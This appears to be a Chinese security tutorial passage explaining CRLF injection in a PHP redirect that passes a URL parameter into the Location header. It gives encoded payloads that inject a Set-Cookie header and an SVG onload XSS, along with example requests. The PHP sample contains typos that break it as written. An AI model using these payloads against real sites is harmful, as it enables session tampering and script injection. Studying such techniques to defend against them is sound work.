 ```php
if(isset($_GET["url"])&&($_cookie["security_level"]!="1"&&$_COOKIE["security_level"]!="2"))
{
    header("Location:".GET["url"]);
    exit;
}
```

代码的意思是当条件满足时，将请求包中的url参数值拼接到Location字符串中，并设置成响应头发送给客户端。 

假设存在CRLF漏洞，响应包此时应该 会出现如下情况

```
HTTP/1.1 302 Found
...
Location:http://www.xxc.com%0d%0aSet-Cookie:vuale=crlf
Content-Length:0
Content-Type:text/html
```

最终构造的Set-Cookie字符 会出现在HTTP头部的Cookie中且vuale=crlf会被设置成Cookie携带在Cookie中。 最终的数据包会如下：

```
GET api/xxxx/?url=http://www.xxc.com
Host:qclover.cn
User-Agent:xxxxx
...
Referer:http:qclover.cn
Cookie:xxxxxxxxxx;vuale=crlf
...
```

了解CRLF的服务端的代码原理后，可以知道本质还是在代码中的Location,这与url（302）跳转类似，因此在存在url跳转的情况下还可以尝试Fuzz,转为url跳转->CRLF->CRLF+XSS的利用

CRLF+XSS,payload可以更改为

```
GET /xxxx/redirect=http://www.xxc.com%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
...
```

会变成`->`

```
GET /xxxx/redirect（CRLF）
Host:qclover.cn
content-type:text/html（CRLF）
location:<svg/onload=alert(innerHTML)>
```

若同时存在url跳转，payload可以变换一下,CRLF+XSS

```
GET api/xxxx/?url=http://www.xxc.com%0d%0aSet-Cookie:%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE HTTP/1.1
Host:qclover.cn
User-Agent:xxxxx
...
Referer:http:qclover.cn
Cookie:xxxxxxxxxx
...
```
